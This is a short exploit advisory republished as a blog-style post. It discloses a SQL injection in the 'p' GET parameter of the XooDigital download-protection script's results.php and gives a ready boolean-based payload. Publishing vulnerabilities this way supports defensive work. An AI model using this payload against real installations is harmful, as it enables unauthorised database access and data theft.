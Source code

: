 ```yaml
---
layout:     post
title:      "XooDigital - 'p' SQL Injection"
date:       2019-03-26 12:02
author:     "Ahmet Ümit BAYRAM"
category:   exploit
tags:       [sql, sqli, sql injection, exploit-db]
---
```


# Exploit Title: XooDigital - 'p' SQL Injection
# Date: 26.03.2019
# Exploit Author: Ahmet Ümit BAYRAM
# Vendor Homepage: https://xooscripts.com/product/digital-download-protection-script.html
# Demo Site: http://xooscripts.com/demos/xoodigital/
# Version: Lastest
# Tested on: Kali Linux
# CVE: N/A

----- PoC : SQLi -----

Request: http://localhost/[PATH]/results.php?p=1
Vulnerable Parameter: p (GET)
Payload: p=1') OR NOT 7970=7970#
